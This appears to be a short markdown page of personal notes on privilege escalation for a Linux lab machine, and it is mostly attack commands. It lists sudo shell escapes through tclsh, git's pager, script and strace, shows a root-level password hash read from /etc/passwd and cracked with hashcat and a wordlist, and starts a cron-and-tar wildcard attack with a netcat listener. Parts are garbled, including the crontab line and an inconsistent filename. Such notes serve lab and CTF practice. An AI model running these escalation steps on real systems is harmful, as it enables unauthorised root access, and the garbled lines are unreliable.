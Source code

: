 ## tclsh
#### \# shell
```
sudo tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```

## git
#### \# shell
```
PAGER='sh -c "exec sh 0<&1"' git -p help
sudo PAGER='sh -c "exec sh 0<&1"' git -p help
```

```
sudo git help config
!/bin/sh
```

## script
#### \# shell
```
script -q /dev/null
sudo script -q /dev/null
```

## strace

```
sudo strace -o /dev/null /bin/bash
```
&nbsp;
# 2 HASH  in /etc/passwd
---
```
cat /etc/passwd
insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh
```

```
echo AzER3pBZh6WZE > linisecurity
hashcat -m 1500 -a 0 linsecurity rockyou.txt --force
```

&nbsp;
# 3 CRON , TAR, wildcard
---
#### \# 1
```
cat /etc/crontab
*/1 #### \#   #### \# #### \# #### \#   root    /etc/cron.daily/backup
```
#### \# 2
```
cat /etc/cron.daily/backup
for i in $(ls /home); do cd /home/$i && /bin/tar -zcf /etc/backups/home-$i.tgz *; done
```
#### \# 3 start listener
```
nc -nlvp 443
```